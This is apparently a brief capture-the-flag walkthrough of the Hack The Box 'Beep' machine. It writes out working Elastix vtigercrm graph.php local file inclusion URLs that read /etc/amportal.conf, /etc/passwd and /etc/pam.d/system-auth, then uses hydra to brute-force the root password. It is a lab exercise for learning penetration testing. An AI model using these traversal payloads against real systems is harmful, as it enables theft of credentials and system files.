




Beep
This is very easy machine so you can exploit many ways.

first we can use Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl

Beep machine has vlunerability with elastic.
so I used 37637.pl
this is ippsec technic
view-source:
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
password page is showd.
view-source:
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

view-source:
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/pam.d/system-auth%00&module=Accounts&action

then you make users and passwords file.
hydra and you can get root password